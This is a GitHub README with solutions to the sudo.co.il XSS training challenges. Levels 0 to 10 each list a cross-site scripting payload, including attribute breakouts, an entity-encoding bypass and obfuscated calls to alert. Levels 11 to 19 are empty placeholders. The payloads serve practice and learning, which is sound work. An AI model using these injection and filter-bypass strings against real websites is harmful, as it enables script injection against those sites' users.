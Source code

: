 # Solutions of XSS Challenges of http://sudo.co.il/xss/
---
<p align="center">
  <img src="sudo.co.il.PNG">
</p>

---
**Our mission is to popup window with document.domain (sudo.co.il) *without any kind of user interaction* **
---
- Level 0
```javascript
<script>alert(document.domain)</script>
```

- Level 1
```javascript
"><script>alert(document.domain)</script>
```

- Level 2
```javascript
" autofocus onfocus="alert(document.domain)
```

- Level 3
```javascript
"autofocus/onfocus="alert(document.domain)
```

- Level 4
```javascript
"autofocus/onfocus="confirm&#40;document.domain&#41;
```

- Level 5.1
```javascript
'-alert(document.domain)-'
```

- Level 5.2
```javascript
\'-alert(document.domain);<!--
```

- Level 6
```javascript
\'-alert(document.domain);//
```

- Level 7
```javascript
" autofocus="" onfocus="alert(document.domain)
```

- Level 8
```javascript
"};this[8680439..toString(30)](1);//
```

- Level 8.1
```javascript
"};this[8680439..toString(30)](1);{"
```

- Level 9
```javascript
'};this[8680439..toString(30)](1);{'
```

- Level 10
```javascript
';this[8680439..toString(30)](1);'
```
<!--
- Level 11
```javascript

```

- Level 12
```javascript

```

- Level 13
```javascript

```

- Level 14
```javascript

```

- Level 15
```javascript

```

- Level 16
```javascript

```

- Level 17
```javascript

```

- Level 18
```javascript

```

- Level 19
```javascript

```
-->
